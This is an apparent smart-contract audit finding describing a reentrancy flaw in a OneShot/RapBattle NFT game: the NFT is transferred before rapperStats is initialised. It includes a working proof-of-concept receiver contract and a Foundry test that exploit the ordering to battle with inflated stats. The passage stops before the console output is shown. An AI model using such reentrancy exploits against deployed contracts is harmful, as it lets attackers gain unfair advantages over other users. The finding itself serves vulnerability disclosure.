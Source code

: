 The mintRapper function in the OneShot file has a vulnerability where the ERC-721 token is distributed before updating the `rapperStats`. This sequence allows a potential reentrancy attack, as a malicious contract can mint the NFT, triggered the `onERC721Received` function in their contract, and then exploit the NFT to initiate a rapper battle using the `goOnStageOrBattle` function in the `rapperBattle` file. This results in the NFT having a `rapperStats` value of 65 instead of the expected initialized value of 50, potentially impacting the outcome of battles and allowing users to gain an extra 15 points without proper staking.

## Vulnerability Details

The vulnerability arises from the order of execution in the `mintRapper` function, allowing a reentrancy attack. A malicious contract can mint an NFT, receive it through the `onERC721Received` function, and then immediately trigger a rapper battle, taking advantage of the uninitialized `rapperStats` value. The impact of this vulnerability is verified through the `MockERC721Receiver` contract and the `testReentrancyIssue` test in `RapBattleTest`, displaying a final skill value of 65 instead of the expected initialized value of 50.

Adding `MockERC721Receiver` in `OneShotTest.t.sol`:

```js
contract MockERC721Receiver is Test {
    OneShot oneShot;
    Credibility cred;
    RapBattle rapBattle;

    event Battle(address indexed challenger, uint256 tokenId, address indexed winner);

    constructor(OneShot _oneShot, Credibility _cred, RapBattle _rapBattle) payable {
        oneShot = _oneShot;
        cred = _cred;
        rapBattle = _rapBattle;
    }

    function mintRapper() public {
        oneShot.mintRapper();
    }

    function onERC721Received(address, address, uint256 tokenId, bytes calldata) external returns (bytes4) {
        oneShot.approve(address(rapBattle), tokenId);
        uint256 finalSkill = rapBattle.getRapperSkill(tokenId);
        console.log(finalSkill);

        rapBattle.goOnStageOrBattle(tokenId, cred.balanceOf(address(this))); 
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```

Adding the test in `RapBattleTest` test contract

```js
function testReentrancyIssue() public mintRapper {
        address attacker = makeAddr("attacker");
        
        vm.startPrank(user);
        oneShot.approve(address(rapBattle), 0);
        rapBattle.goOnStageOrBattle(0, 0);

        vm.startPrank(attacker);
        MockERC721Receiver receiver = new MockERC721Receiver(oneShot, cred, rapBattle);
        receiver.mintRapper();
        vm.stopPrank();
    }
```
In the console, it display the final skill as the following:
